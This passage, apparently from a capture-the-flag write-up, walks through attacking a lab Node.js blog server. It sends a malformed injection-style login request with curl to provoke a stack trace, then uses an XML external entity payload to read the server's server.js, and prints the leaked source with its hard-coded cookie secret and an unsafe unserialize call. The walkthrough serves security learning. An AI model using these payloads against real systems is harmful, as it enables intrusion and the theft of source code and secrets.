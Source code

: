 Seems we cannot establish a reverse shell nor RCE this way. So best we could do is trying to read the server's source code, looking for leaks.
If we try to achieve and exception, we obtain this response:
```bash
❯ curl -X POST "http://10.10.11.139:5000/login" -H "Content-Type: application/json" -d '{"user":"admin", "password": {"$ne": "bar"},}' -s | grep pre | sed 's/<br>/\n/g' | sed 's/&nbsp;/\t/g'
<pre>SyntaxError: Unexpected token } in JSON at position 44
 		at JSON.parse (&lt;anonymous&gt;)
 		at parse (/opt/blog/node_modules/body-parser/lib/types/json.js:89:19)
 		at /opt/blog/node_modules/body-parser/lib/read.js:121:18
 		at invokeCallback (/opt/blog/node_modules/raw-body/index.js:224:16)
 		at done (/opt/blog/node_modules/raw-body/index.js:213:7)
 		at IncomingMessage.onEnd (/opt/blog/node_modules/raw-body/index.js:273:7)
 		at IncomingMessage.emit (events.js:412:35)
 		at endReadableNT (internal/streams/readable.js:1334:12)
 		at processTicksAndRejections (internal/process/task_queues.js:82:21)</pre>
```
If we send an incorrect json, we can see the exception taking place under the `/opt/blog` folder. So we can guess the web server is allocated in that folder. As we are attacking a node server, we can try reading the source of `server.js`:
```xml
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///opt/blog/server.js" >]>
  <post>
    <title>Test article</title>
    <description>This is a test made by developers, ignore it</description>
    <markdown>&xxe;</markdown>
  </post>
```
After uploading this file, we can retrieve the following output:
```js
const express = require('express')
const mongoose = require('mongoose')
const Article = require('./models/article')
const articleRouter = require('./routes/articles')
const loginRouter = require('./routes/login')
const serialize = require('node-serialize')
const methodOverride = require('method-override')
const fileUpload = require('express-fileupload')
const cookieParser = require('cookie-parser');
const crypto = require('crypto')
const cookie_secret = "UHC-SecretCookie"
//var session = require('express-session');
const app = express()

mongoose.connect('mongodb://localhost/blog')

app.set('view engine', 'ejs')
app.use(express.urlencoded({ extended: false }))
app.use(methodOverride('_method'))
app.use(fileUpload())
app.use(express.json());
app.use(cookieParser());
//app.use(session({secret: "UHC-SecretKey-123"}));

function authenticated(c) {
    if (typeof c == 'undefined')
        return false

    c = serialize.unserialize(c)

    if (c.sign == (crypto.createHash('md5').update(cookie_secret + c.user).digest('hex')) ){
```